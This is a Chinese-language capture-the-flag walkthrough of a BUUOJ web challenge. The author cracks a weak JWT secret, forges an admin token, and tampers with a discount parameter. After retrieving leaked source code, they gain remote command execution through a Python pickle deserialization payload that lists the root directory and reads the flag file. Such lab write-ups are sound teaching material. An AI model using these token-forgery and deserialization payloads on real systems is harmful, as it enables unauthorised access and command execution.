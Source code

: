 ![](<./img/Pasted image 20221226095504.png>)

---

![](<./img/Pasted image 20221226095527.png>)

草，地下组织是吧（

先注册一个账号试试

![](<./img/Pasted image 20221226095732.png>)

扫目录好像没扫出什么东西

![](<./img/Pasted image 20221226102523.png>)

有个jwt
```
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkNyYWNrVEMifQ.EROtea15Wqt7t3TbLzHl4silV3GhEDvAY8v6HcBiACw
```

尝试破解

```
SECRET FOUND: 1Kun
Time taken (sec): 11.454
```

伪造成`admin`

![](<./img/Pasted image 20221226105231.png>)

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

![](<./img/Pasted image 20221226105506.png>)
![](<./img/Pasted image 20221226105616.png>)

原来是让我们在首页找`lv6`嘛QAQ

当然是自动化（这辈子都是不可能手动去找的）
```python
import os
import requests
import time

url = 'http://d4c2ad15-e197-4f2a-860c-dc3a47dfe33e.node4.buuoj.cn:81/shop'

for i in range(1, 100000):
    response = requests.get(url, {'page': i})
    if response.text.find('lv6.png') > 0:
        print(i)
        time.sleep(0.1)
        break
```

> 180

![](<./img/Pasted image 20221226110421.png>)

好恶臭的价格啊（恼

![](<./img/Pasted image 20221226110619.png>)

```
_xsrf=2%7C28c03bf5%7C4c4a42fbd604997e06764c102a28edea%7C1672021882&id=1624&price=1145141919.0&discount=0.8
```
谁家`discount`这么搞的QwQ

改成`0.00000001`（居然不能直接改成`0`）

![](<./img/Pasted image 20221226110932.png>)

![](<./img/Pasted image 20221226111038.png>)

大草

![](<./img/Pasted image 20221226111057.png>)

先获取源码

```
/static/asd1f654e683wq/www.zip
```

![](<./img/Pasted image 20221226111229.png>)

高情商：节约流量

低情商：百度网盘==

![](<./img/Pasted image 20221226112353.png>)

![](<./img/Pasted image 20221226112419.png>)

```python
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

```html
<div class="ui segment">{{ res }}</div>
```

`python`里面通过`__reduce__`魔术方法来[自定义pickle反序列化行为](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler)，通过

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('ls /',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```
用`python2`是坏文明（恼

```
ccommands%0Agetoutput%0Ap0%0A%28S%27ls%20/%27%0Ap1%0Atp2%0ARp3%0A.
```

```
app bin dev etc flag.txt home lib media mnt opt proc root run sbin srv sys tmp usr var
```

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('cat /flag.txt',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

```
flag{3811325b-5913-45d0-b8e1-bd7b8e76cb65}
```

#Web #jwt #暴力破解 #源码泄漏 #python #pickle #魔术方法 #RCE #反序列化 